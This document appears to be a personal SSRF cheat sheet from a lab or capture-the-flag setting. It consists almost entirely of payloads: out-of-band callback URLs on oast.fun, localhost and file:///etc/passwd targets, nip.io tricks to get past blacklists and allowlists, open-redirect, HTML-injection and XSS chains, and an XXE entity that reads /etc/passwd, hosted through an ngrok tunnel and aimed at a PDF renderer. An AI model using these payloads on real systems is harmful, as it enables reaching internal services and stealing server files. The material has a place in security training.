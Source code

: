 ___

![[Pasted image 20241214123720.png]]

https://app.interactsh.com/#/

## Screenshot Context and PDF Context

```
http://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun
```

```
http://127.0.0.1
```

```
file:///etc/passwd
```

## Blacklisted Resources

```
http://127.1
```

https://nip.io/

`<anything>[.-]<IP Address>.nip.io` in **"dot"**, **"dash"** or **"hexadecimal"** notation to the corresponding `<IP Address>`:

- dot notation: `magic.127.0.0.1.nip.io`
- dash notation: `magic-127-0-0-1.nip.io`
- hexadecimal notation: `magic-7f000001.nip.io`

## Whitelisting and Bypasses

```
http://hackinghub.io.127.0.0.1.nip.io
```

## Chaining Open Redirects

```
https://charcoal.ctfio.com/?redirect=http://localhost:8080
```

## In an Image Context

Scan internal ports, 
Time based
```
http://127.0.0.1:8080/favicon.ico
```

## Chaining HTML Injection

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

```
<iframe/src="http://localhost:8080">
```

## Chaining XSS

```
<script>document.write(document.location)</script> 
```

```
<script>window.location = "http://localhost"; </script>
```

```
<script>window.location = "file:///etc/passwd"; </script>
```

instead of calling it directly,

```
<iframe/src=https://mywebsite.com/locationwhere.html>
```

## Chaining XML External Entity (XXE)

```
<img/src="https://puuatcmlkisigmqtcmzzjtswfv8t67vdw.oast.fun">
```

Get the user-agent --> # Prince v10
```xml
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

```
python3 -m http.server 8080
ngrok http http://localhost:8080
```

```
<iframe/src="https://fbcf-83-213-97-233.ngrok-free.app/prince-poc.xml">
```

